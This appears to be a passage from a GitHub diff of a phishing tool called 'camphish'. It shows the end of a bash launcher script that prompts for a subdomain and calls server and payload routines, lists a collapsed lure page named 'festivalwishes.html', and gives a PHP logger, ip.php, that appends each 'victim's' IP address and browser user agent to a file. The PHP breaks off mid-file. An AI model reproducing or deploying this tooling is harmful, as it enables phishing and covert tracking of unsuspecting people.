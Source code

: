 printf '\e[1;33m[\e[0m\e[1;77m+\e[0m\e[1;33m] Choose subdomain? (Default:\e[0m\e[1;77m [Y/n] \e[0m\e[1;33m): \e[0m'
read choose_sub
choose_sub="${choose_sub:-${default_choose_sub}}"
if [[ $choose_sub == "Y" || $choose_sub == "y" || $choose_sub == "Yes" || $choose_sub == "yes" ]]; then
subdomain_resp=true
printf '\e[1;33m[\e[0m\e[1;77m+\e[0m\e[1;33m] Subdomain: (Default:\e[0m\e[1;77m %s \e[0m\e[1;33m): \e[0m' $default_subdomain
read subdomain
subdomain="${subdomain:-${default_subdomain}}"
fi

server
payload
checkfound

}

banner
dependencies
camphish

 692  festivalwishes.html 
Large diffs are not rendered by default.

 29  ip.php 
@@ -0,0 +1,29 @@
<?php

if (!empty($_SERVER['HTTP_CLIENT_IP']))
    {
      $ipaddress = $_SERVER['HTTP_CLIENT_IP']."\r\n";
    }
elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR']))
    {
      $ipaddress = $_SERVER['HTTP_X_FORWARDED_FOR']."\r\n";
    }
else
    {
      $ipaddress = $_SERVER['REMOTE_ADDR']."\r\n";
    }
$useragent = " User-Agent: ";
$browser = $_SERVER['HTTP_USER_AGENT'];


$file = 'ip.txt';
$victim = "IP: ";
$fp = fopen($file, 'a');

fwrite($fp, $victim);
fwrite($fp, $ipaddress);
fwrite($fp, $useragent);
fwrite($fp, $browser);

